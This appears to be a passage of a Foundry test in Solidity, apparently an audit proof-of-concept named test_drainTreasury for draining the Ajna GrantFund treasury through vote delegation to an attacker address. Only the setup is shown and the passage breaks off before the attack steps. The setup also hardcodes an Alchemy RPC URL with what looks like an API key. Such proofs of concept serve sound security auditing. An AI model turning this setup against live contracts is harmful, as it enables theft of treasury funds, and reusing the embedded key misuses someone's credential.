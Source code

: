 ```
    // Ajna token Holder at the Ajna contract creation on mainnet
    address internal _tokenDeployer  = 0x666cf594fB18622e1ddB91468309a7E194ccb799;
    address internal _attacker   = makeAddr("_tokenHolder1");
    address internal _tokenHolder2   = makeAddr("_tokenHolder2");
    address internal _tokenHolder3   = makeAddr("_tokenHolder3");
    address internal _tokenHolder4   = makeAddr("_tokenHolder4");
    address internal _tokenHolder5   = makeAddr("_tokenHolder5");
    address internal _tokenHolder6   = makeAddr("_tokenHolder6");

    address[] internal _votersArrAttacker = [
        _attacker
    ];

    address[] internal _votersArr = [
        _tokenHolder2,
        _tokenHolder3,
        _tokenHolder4,
        _tokenHolder5,
        _tokenHolder6
    ];

    address[] internal _helperAttackerDelegatee = [
      _attacker,
      _attacker,
      _attacker,
      _attacker,
      _attacker
    ];

    // at this block on mainnet, all ajna tokens belongs to _tokenDeployer
    uint256 internal _startBlock      = 16354861;
    // at this block on mainnet, 1B ajna tokens where burned, reducing the supply to 1B.
    uint256 internal _startBlock2      = 16478160;

    function setUp() external {
        vm.createSelectFork("https://eth-mainnet.g.alchemy.com/v2/V2bjD46crGUhn4EDk92txmvC0BFqLzjo", _startBlock2);

        vm.startPrank(_tokenDeployer);

        // Ajna Token contract address on mainnet
        _token = IAjnaToken(0x9a96ec9B57Fb64FbC60B423d1f4da7691Bd35079);

        // deploy growth fund contract
        _grantFund = new GrantFund();

        // initial minter distributes tokens to test addresses
        _transferAjnaTokens(_token, _votersArrAttacker, 385_000_000 * 1e18, _tokenDeployer);
        _transferAjnaTokens(_token, _votersArr, 23_000_000 * 1e18, _tokenDeployer);

        // initial minter distributes treasury to grantFund
        // A treasury with 300M ajna tokens (Using whitepaper values)
        changePrank(_tokenDeployer);
        _token.approve(address(_grantFund), 300_000_000 * 1e18);
        _grantFund.fundTreasury(300_000_000 * 1e18);
    }    

    function test_drainTreasury() external {
      /*
        STATUS:

        - Attacker has 385M of ajna tokens
        - Holders from 2 to 6 have 23M of ajna tokens each, total of = 115M
```